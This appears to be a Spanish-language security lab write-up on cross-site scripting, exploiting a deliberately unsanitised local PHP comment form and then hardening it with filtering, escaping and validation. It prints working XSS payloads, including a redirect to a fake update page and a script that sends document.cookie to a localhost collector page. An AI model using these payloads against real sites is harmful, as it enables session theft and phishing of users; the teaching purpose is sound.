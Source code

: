 # Explotación y mitigación de Cross-Site Scripting (XSS)

## Objetivos

> [1. Conocer las diferentes formas de ataques XSS](#1-conocer-las-diferentes-formas-de-ataques-xss)  
> [2. Realizar varios ataques XSS](#2-realizar-varios-ataques-xss)  
> [3. Implementar modificaciones al código para mitigar los ataques XSS](#3-implementar-modificaciones-al-código-para-mitigar-los-ataques-xss)  

-----

## 1. Conocer las diferentes formas de ataques XSS

Los ataques **XSS (Cross-Site Scripting)** son un tipo de vulnerabilidad en sitios web donde un atacante inyecta código malicioso (normalmente JavaScript) en una página que otros usuarios van a visitar.
El objetivo suele ser robar cookies, sesiones, datos del usuario o redirigir a sitios maliciosos.
Los tipos de ataques XSS mas comunes son:

+ ***XSS reflejado***: el script va en una URL y se ejecuta cuando el usuario accede al enlace.
+ ***XSS almacenado***: el script queda guardado en el servidor (como en un comentario) y se ejecuta cuando alguien ve la página.
+ ***XSS DOM-based***: el script se ejecuta por culpa de cómo la propia página maneja el contenido con JavaScript.


## 2. Realizar varios ataques XSS

Vamos a realizar diferentes pruebas en las que realizamos ataques de XSS a sitios inseguros:

Comenzamos creando un fichero '[comment.php](./Recursos/comment.php)' en nuestro servicio de apache con un pequeño formulario, y sin realizar ningun tipo de validación ni sanitización de la entrada:

![php1](./Imagenes/1.png)

Este código muestra un formulario donde el usuario puede ingresar un comentario en un campo de texto. Cuando el usuario envía el formulario, el comentario ingresado se muestra en la pantalla con el mensaje "Comentario publicado: [comentario]".

![php1](./Imagenes/2.png)

Si en lugar de introducir un comentario introducimos código *Javascript*, al mostrarse en la página el comentario, el navegador va a interpretar ese código:

Vamos a introducir el siguiente código:

`<script>alert('XSS ejecutado!')</script>`

El navegador lo interpreta y muestra una ventana emergente:

![php1](./Imagenes/3.png)

También podemos redirigir a una página de *Phishing* con el siguiente código:

`<script>window.location='https://fakeupdate.net/win11/'</script>`

![php1](./Imagenes/4.png)

Ahora vamos a crearnos un fichero en nuestro servicio web para que se almacenen las *coookies* de los usuarios:

```
mkdir /var/www/html/cookieStealer/
touch /var/www/html/cookieStealer/index.php
touch /var/www/html/cookieStealer/cookies.txt
chmod 777 /var/www/html/cookieStealer/cookies.txt
```
Y en el fichero ***index.php*** introducimos el código de [Este archivo](./Recursos/index.php)

Ahora si introducimos el siguiente código Javascript en el formulario:

```
<script>document.write('<img src="http://localhost/cookieStealer/index.php?cookie='+document.cookie+'">')</script>`
```
Va a mandar las cookies a nuestro fichero ***index.php***:

![php1](./Imagenes/5.png)

![php1](./Imagenes/6.png)

## 3. Implementar modificaciones al código para mitigar los ataques XSS

En este apartado vamos a realizar modificaciones en el código php del formulario, que filtren y sanitizen la entrada del usuario, para evitar estos ataques de XSS:

### filter_input() para filtrar caracteres:

Creamos el documento [comment1.php](./Recursos/comment1.php) con la función ***filter_input()*** que se encarga de filtrar caracteres problemáticos.

![php1](./Imagenes/7.png)

### htmlspecialchars() para sanitizar la entrada:

Creamos el documento [comment2.php](./Recursos/comment2.php) con la función ***htmlspecialchars()*** que se encargar de convertir los caracteres especiales en sus equivalentes entidades HTML. Para que aunque el usuario introduzca código, no sea ejecutado y sea interpretado como texto sin formato.

![php1](./Imagenes/8.png)

Hacemos la prueba de introducir código Javascript pero no lo ejecuta:

![php1](./Imagenes/9.png)

### Validar la entrada:

Creamos el documento [comment3.php](./Recursos/comment3.php), en el que agregamos una validación de entrada para que el usuario no pueda enviar comentarios vacíos o superiores a 500 caracteres.

![php1](./Imagenes/10.png)

Hacemos la prueba enviando un comentario vacío:

![php1](./Imagenes/11.png)

## Protección contra inyecciones HTML y JS (XSS)

Es posible reforzar la validación de entrada que hace *htmlspecialchars()* con *strip_tags()*, para que solo se pueda introducir texto sin etiquetas HTML.

Aunque con *strip_tags()* también es posible indicar que etiquetas si estan permitidas de la siguiente manera:

`$comment = strip_tags($_POST['comment'], '<b><i>');`

## Formulario seguro
Creamos el documento [comment4.php](./Recursos/comment4.php) con todas las mitigaciones anteriores.

![php1](./Imagenes/12.png)

Las medidas de seguridad que contiene son:

+ Uso de *filter_string_polyfill()* para eliminar caracteres nulos y etiquetas html, también las comillas simples y dobles se reemplazan por sus equivalentes html.
+ Uso de *htmlspecialchars()* que convierte los caracteres especiales en entidades html.
+ Validación de la longitud de entrada y contenido.
